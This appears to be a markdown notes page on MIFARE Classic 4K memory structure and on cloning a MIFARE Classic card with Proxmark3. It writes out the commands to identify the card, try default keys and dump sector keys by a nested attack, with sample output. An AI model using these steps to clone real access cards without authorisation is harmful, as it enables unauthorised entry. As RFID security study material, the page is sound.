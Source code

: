 

### Mifare Classic 4K 

Structure Memory Structure:

- 4096 Bytes
- 40 Sectors (0-39) 
- 32 Sectors (0 – 31 ) are of 4 Blocks 
- 8 Sectors are of 16 Blocks 
- Each Sector has Sector Trailer Block 
- Authentication is required


## Cloning a MIFARE classic 

[Proxmark Cheat sheet](proxmark3.md)

Make sure that it's a MIFARE classic 1K card:

```
hf search
```

Lats line should return:

```
Valid ISO14443A Tag Found - Quitting Search
```


In this case it’s a Mifare 1k card. Copy  the UID of the card, which we’ll need later. From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used):

```
hf mf chk --1k -f mfc_default_keys
```


Results: 

```
Found valid key:[ffffffffffff]  
```

This shows a key of ffffffffffff, which we can plug into the next command, which dumps keys to file:

```
hf mf nested --1k --blk 0 -a -k FFFFFFFFFFFF --dump
```

This dumps keys from the card into the file dumpkeys.bin. The output should be something like this:

```
[+] Testing known keys. Sector count 16
[+] Fast check found all keys

[+] found keys:

[+] -----+-----+--------------+---+--------------+----
[+]  Sec | Blk | key A        |res| key B        |res
[+] -----+-----+--------------+---+--------------+----
[+]  000 | 003 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  001 | 007 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  002 | 011 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  003 | 015 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  004 | 019 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  005 | 023 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  006 | 027 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  007 | 031 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  008 | 035 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
```
